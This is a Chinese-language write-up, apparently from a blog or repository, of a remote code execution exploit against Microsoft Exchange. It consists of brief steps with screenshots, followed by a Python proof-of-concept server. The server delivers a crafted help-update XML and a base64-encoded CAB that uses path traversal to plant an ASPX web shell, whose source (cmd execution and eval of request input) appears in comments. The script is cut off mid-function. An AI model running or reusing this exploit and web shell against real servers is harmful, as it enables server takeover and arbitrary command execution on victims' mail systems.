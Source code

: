 ![image-20210831105737924](https://images-1258433570.cos.ap-beijing.myqcloud.com/images/image-20210831105737924.png)

然后首先要调整xml文件，使其几个验证的项通过验证

查询本地Exchange版本

![image-20210831105831164](https://images-1258433570.cos.ap-beijing.myqcloud.com/images/image-20210831105831164.png)

修改xml，这类顺带需要修改语言包

![文件](https://images-1258433570.cos.ap-beijing.myqcloud.com/images/image-20210831105903483.png)

然后使用makecab准备放到web上的cab文件

![image-20210831110043959](https://images-1258433570.cos.ap-beijing.myqcloud.com/images/image-20210831110043959.png)

接着使用稍作修改的原始POC，并在Exchange执行命令即可触发RCE

![image-20210831110152361](https://images-1258433570.cos.ap-beijing.myqcloud.com/images/image-20210831110152361.png)

脚本如下：

```python
import sys
import base64
import urllib3
import requests
from threading import Thread
from http.server import HTTPServer, SimpleHTTPRequestHandler
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

class CabRequestHandler(SimpleHTTPRequestHandler):
    def log_message(self, format, *args):
        return
    def do_GET(self):
        if self.path.endswith("poc.xml"):
            print("(+) delivering xml file...")
            xml = """<ExchangeHelpInfo>
  <HelpVersions>
    <HelpVersion>
      <Version>15.01.0225.042-15.01.0999.999</Version>
      <Revision>%s</Revision>
      <CulturesUpdated>zh-HanS</CulturesUpdated>
      <CabinetUrl>http://%s:8000/poc.cab</CabinetUrl>
    </HelpVersion>
  </HelpVersions>
</ExchangeHelpInfo>""" % (r, s)
            self.send_response(200)
            self.send_header('Content-Type', 'application/xml')
            self.send_header("Content-Length", len(xml))
            self.end_headers()
            self.wfile.write(str.encode(xml))
        elif self.path.endswith("poc.cab"):
            print("(+) delivering cab file...")
            # created like: makecab /d "CabinetName1=poc.cab" /f files.txt
            # files.txt contains: "poc.aspx" "../../../../../../../inetpub/wwwroot/aspnet_client/poc.aspx"
            # poc.aspx contains: <%=System.Diagnostics.Process.Start("cmd", Request["c"])%>
            # <script language="JScript" runat="server"> function Page_Load(){/**/eval(Request["exec_code"],"unsafe");}</script>
            stage_2  = "TVNDRgAAAAC+AAAAAAAAACwAAAAAAAAAAwEBAAEAAAAPEwAAeAAAAAEAAQA6AAAA"
            stage_2 += "AAAAAAAAZFFsJyAALi4vLi4vLi4vLi4vLi4vLi4vLi4vaW5ldHB1Yi93d3dyb290"
            stage_2 += "L2FzcG5ldF9jbGllbnQvcG9jLmFzcHgARzNy0T4AOgBDS7NRtQ2uLC5JzdVzyUxM"
            stage_2 += "z8svLslMLtYLKMpPTi0u1gsuSSwq0VBKzk1R0lEISi0sTS0uiVZKVorVVLUDAA=="
            p = base64.b64decode(stage_2.encode('utf-8'))
            self.send_response(200)
```